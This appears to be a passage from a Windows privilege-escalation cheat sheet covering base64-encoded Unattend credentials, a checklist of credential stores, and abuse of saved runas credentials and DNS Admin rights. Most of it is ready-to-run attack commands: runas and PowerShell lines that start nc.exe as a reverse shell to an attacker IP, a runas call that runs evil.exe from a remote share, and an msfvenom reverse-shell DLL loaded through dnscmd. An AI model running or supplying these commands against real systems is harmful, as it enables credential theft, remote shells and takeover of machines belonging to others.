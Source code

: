 Unattend credentials are stored in base64 and can be decoded manually with base64.

```powershell
$ echo "U2VjcmV0U2VjdXJlUGFzc3dvcmQxMjM0Kgo=" | base64 -d
SecretSecurePassword1234*
```

### TODO
* Groups.xml
* Windows Vault credentials that you could use?
* CMD History
* Interesting DPAPI credentials?
* SSH keys in registry?
* Credentials inside "known files"? Inside the Recycle Bin? In home?
* Inside Browser data (dbs, history, bookmarks....)?
* AppCmd.exe exists? Credentials?
* SCClient.exe? DLL Side Loading?
* Cloud credentials?


## Runas (saved credentials)

Use the `cmdkey` to list the stored credentials on the machine.

```powershell
cmdkey /list
Currently stored credentials:
 Target: Domain:interactive=WORKGROUP\Administrator
 Type: Domain Password
 User: WORKGROUP\Administrator
```

Then you can use `runas` with the `/savecred` options in order to use the saved credentials.
The following example is calling a remote binary via an SMB share.
```powershell
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
```

Using `runas` with a provided set of credential.

```powershell
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```

```powershell
$secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
$computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```

## Groups Privileges

DNS Admin
```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f dll > privesc.dll
dnscmd 127.0.0.1 /config /serverlevelplugindll privesc.dll
sc.exe stop dns
sc.exe start dns
```
